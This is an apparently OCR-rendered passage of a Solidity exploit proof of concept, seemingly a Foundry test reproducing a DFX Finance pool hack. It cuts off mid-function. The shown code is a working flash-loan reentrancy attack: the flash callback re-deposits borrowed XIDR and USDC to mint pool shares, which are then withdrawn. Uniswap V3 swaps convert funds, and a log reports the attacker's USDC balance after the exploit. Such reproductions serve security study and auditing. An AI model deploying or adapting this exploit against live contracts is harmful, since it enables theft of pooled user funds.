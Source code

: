 ```solidity

        USDCToXIDR();
        uint[] memory XIDR_USDC = new uint[](2);
        XIDR_USDC[0] = 0;
        XIDR_USDC[1] = 0;
        ( , XIDR_USDC) = dfx.viewDeposit(200_000 * 1e18);
        dfx.flash(address(this), XIDR_USDC[0] * 995 / 1000, XIDR_USDC[1] * 995 / 1000, new bytes(1)); // 5% fee
        dfx.withdraw(receiption, block.timestamp + 60);
        XIDRToUSDC();

        emit log_named_decimal_uint(
            "[End] Attacker USDC balance after exploit",
            USDC.balanceOf(address(this)),
            6
        );

    }

    function flashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external{
        (receiption, ) = dfx.deposit(200_000 * 1e18, block.timestamp + 60);
    }

    function WETHToUSDC() internal{
        Uni_Router_V3.ExactInputSingleParams memory _Params = Uni_Router_V3.ExactInputSingleParams({
            tokenIn: address(WETH),
            tokenOut: address(USDC),
            fee: 500,
            recipient: address(this),
            deadline: block.timestamp,
            amountIn: WETH.balanceOf(address(this)),
            amountOutMinimum: 0,
            sqrtPriceLimitX96: 0
        });
        Router.exactInputSingle(_Params);
    }

    function USDCToXIDR() internal{
        Uni_Router_V3.ExactInputSingleParams memory _Params = Uni_Router_V3.ExactInputSingleParams({
            tokenIn: address(USDC),
            tokenOut: address(XIDR),
            fee: 500,
            recipient: address(this),
            deadline: block.timestamp,
            amountIn: USDC.balanceOf(address(this)) / 2,
            amountOutMinimum: 0,
            sqrtPriceLimitX96: 0
        });
        Router.exactInputSingle(_Params);
    }

    function XIDRToUSDC() internal{
        Uni_Router_V3.ExactInputSingleParams memory _Params = Uni_Router_V3.ExactInputSingleParams({
            tokenIn: address(XIDR),
            tokenOut: address(USDC),
            fee: 500,
            recipient: address(this),
            deadline: block.timestamp,
            amountIn: XIDR.balanceOf(address(this)) / 2,
            amountOutMinimum: 0,
```